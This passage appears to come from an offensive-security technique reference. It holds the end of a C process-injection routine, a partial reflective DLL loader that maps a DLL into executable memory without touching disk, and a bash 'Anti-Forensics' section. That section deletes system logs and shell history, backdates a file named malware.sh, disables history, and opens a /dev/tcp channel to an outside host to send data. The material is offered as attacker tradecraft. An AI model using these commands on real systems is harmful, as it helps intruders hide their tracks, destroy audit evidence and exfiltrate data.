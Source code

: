 ```c
    WaitForSingleObject(hThread, INFINITE);

    CloseHandle(hThread);
    CloseHandle(hProcess);
    return TRUE;
}
```

### Reflective DLL Injection

```c
// Load DLL from memory without touching disk
HMODULE ReflectiveLoader(LPVOID lpParameter) {
    HMODULE hModule;
    PIMAGE_DOS_HEADER pDosHeader;
    PIMAGE_NT_HEADERS pNtHeaders;

    // Parse PE headers
    pDosHeader = (PIMAGE_DOS_HEADER)lpParameter;
    pNtHeaders = (PIMAGE_NT_HEADERS)((BYTE *)lpParameter + pDosHeader->e_lfanew);

    // Allocate memory for DLL
    hModule = VirtualAlloc(NULL, pNtHeaders->OptionalHeader.SizeOfImage,
                           MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy headers and sections
    memcpy(hModule, lpParameter, pNtHeaders->OptionalHeader.SizeOfHeaders);

    // Process relocations, imports, etc.
    // ... (implementation details)

    return hModule;
}
```

### Anti-Forensics

```bash
# Clear logs
sudo rm -f /var/log/auth.log*
sudo rm -f /var/log/syslog*
sudo rm -f ~/.bash_history

# Timestamp manipulation
touch -r /etc/passwd malware.sh

# Secure delete
shred -vfz -n 10 sensitive_file

# Disable history
unset HISTFILE
export HISTSIZE=0

# Memory-only operations
exec 3<>/dev/tcp/10.10.10.5/4444
cat >&3
```

---